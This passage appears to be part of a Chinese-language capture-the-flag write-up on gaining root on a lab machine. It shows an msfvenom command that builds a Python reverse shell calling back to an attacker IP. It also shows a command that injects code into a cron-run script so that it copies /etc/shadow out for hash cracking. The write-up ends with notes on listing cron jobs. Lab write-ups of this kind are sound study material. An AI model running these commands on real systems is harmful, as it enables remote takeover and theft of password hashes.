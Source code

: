 ##### 利用msfvenom生成python反向shell

````
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo msfvenom -p cmd/unix/reverse_python lhost=192.168.50.129 lport=5050 -f raw

````

![image-20240609102758112](./assets/image-20240609102758112.png)

#### hash爆破密码

```

echo -e "\nwith open(\"/etc/shadow\", 'r') as f1:\n    with open(\"/var/tmp/sickos.bk\", 'w') as f2:\n        f2.write(f1.read())" >> /var/www/connect.py
```

## 结果

![image-20240609044953777](./assets/image-20240609044953777.png)

## 收获

1. `ls -alhR /etc/cron*`快速检索自动任务
2. 使用msfvenom生成python反向shell

### ls -alhR /etc/cron*

命令 `ls -alhR /etc/cron*` 使用了 `ls` 命令的多个选项来列出 `/etc/cron*` 目录及其子目录中的所有文件和目录的信息。让我们快速了解Linux系统内部的自动任务，排查是否有权限提升的可能。

#### `ls` 命令及其选项

- `ls`：列出目录内容的命令。
- `-a`：显示所有文件，包括隐藏文件（以 `.` 开头的文件）。
- `-l`：使用长格式列出文件，显示详细信息，如文件权限、所有者、大小和修改时间。
- `-h`：以人类可读的格式显示文件大小（例如，1K，234M，2G），使文件大小更容易理解。
- `-R`：递归地列出目录及其子目录中的所有文件。

